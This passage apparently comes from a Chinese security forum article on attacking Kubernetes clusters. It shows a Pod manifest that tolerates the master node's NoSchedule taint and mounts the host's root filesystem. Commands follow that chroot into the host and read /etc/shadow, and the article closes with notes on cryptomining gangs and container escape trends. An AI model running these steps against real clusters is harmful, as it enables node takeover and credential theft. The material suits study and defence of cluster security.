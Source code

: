 ```php
Annotations:        flannel.alpha.coreos.com/backend-data: {"VtepMAC":"66:3b:20:6a:eb:ff"}
                    flannel.alpha.coreos.com/backend-type: vxlan
                    flannel.alpha.coreos.com/kube-subnet-manager: true
                    flannel.alpha.coreos.com/public-ip: 192.168.238.130
                    node.alpha.kubernetes.io/ttl: 0
                    volumes.kubernetes.io/controller-managed-attach-detach: true
CreationTimestamp:  Tue, 14 Sep 2021 17:41:30 +0800
Taints:             node.kubernetes.io/unschedulable:NoSchedule
#创建带有容忍参数的Pod
kubectl create -f control-master.yaml
#control-master.yaml内容：
apiVersion: v1
kind: Pod
metadata:
  name: control-master-15
spec:
  tolerations:
    - key: node.kubernetes.io/unschedulable
      operator: Exists
      effect: NoSchedule
  containers:
    - name: control-master-15
      image: ubuntu:18.04
      command: ["/bin/sleep", "3650d"]
      volumeMounts:
      - name: master
        mountPath: /master
  volumes:
  - name: master
    hostPath:
      path: /
      type: Directory
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-afd9bab01ddbf87cbc5cab2868ef098c1015e3ec.png)

获得Master控制端
===========

```php
kubectl exec control-master-15 -it bash
chroot /master bash
cat /etc/shadow
```

### 结论

Ø目前黑产团伙通过批量扫描然后利用未授权进行挖矿。

Ø当前攻防技术处于初级阶段，但随着云原生攻击武器的发展，攻击门槛也会相应降低。

Ø虚拟机/容器逃逸攻击、供应链攻击等新型技术攻击方式，将会呈现出快速增长的趋势，此类攻击难度很高，带来的危害和影响也很大。
